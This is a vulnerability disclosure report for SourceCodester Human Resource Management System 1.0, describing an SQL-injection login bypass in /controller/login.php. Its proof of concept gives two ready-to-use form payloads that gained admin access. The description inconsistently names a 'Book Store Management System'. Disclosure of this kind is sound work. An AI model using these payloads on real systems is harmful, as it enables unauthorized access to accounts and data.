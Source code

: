 # CVE Report

SourceCodester Human Resource Management System 1.0 /controller/login.php sql injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. Authentication Bypass using SQL Injection on Login Page

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /controller/login.php

# Source code analysis

At index.php file, users login with username and passwd to controller/login.php in submit option.

![](images/login-form.png)

In login.php, Username and Password will be added to sql query command without validation.

![](images/login-handler.png)

# Proof of Concept

Payload in name: `name='+or+1=1%23&password=''&submit=Sign+In`

![](images/bypass-u.png)

Access to Admin Page successfully.

![](images/admin-page.png)

Payload in password: `name=''&password='+or+1=1%23&submit=Sign+In`

![](images/bypass-p.png)